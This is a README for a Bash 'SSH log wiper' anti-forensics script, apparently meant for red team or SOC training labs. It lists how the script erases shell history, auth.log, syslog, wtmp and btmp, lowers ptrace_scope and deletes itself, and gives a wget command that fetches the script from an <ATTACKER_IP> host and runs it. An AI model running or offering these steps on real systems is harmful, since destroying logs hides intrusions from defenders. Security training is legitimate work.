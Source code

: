 # clean.sh

 Anti-Forensics Bash Script: SSH Log Wiper
This project demonstrates how attackers may clean up their traces after gaining remote access to a Linux system via SSH. It includes a Bash script that performs full cleanup of forensic artifacts, simulating realistic attacker behavior for Red Team or SOC training labs.

🎯 Features
Clears .bash_history and disables history logging

Wipes key system log files: auth.log, syslog, wtmp, btmp, etc.

Deletes temporary files from /tmp and /var/tmp

Optionally lowers ptrace_scope for stealth

Prompts user to optionally reboot the system

Self-destructs: deletes itself after execution or reboot

🧪 Lab Setup
Attacker: Kali Linux (hosts the script over HTTP)

Victim: Ubuntu server (pulls script via wget or curl and executes)

⚠️ Disclaimer
This script is for educational and red team lab use only.
Do not use on production environments or without permission.

💡 Example Use

#
wget http://<ATTACKER_IP>:8080/clean.sh -O /tmp/clean.sh
chmod +x /tmp/clean.sh
bash /tmp/clean.sh
#
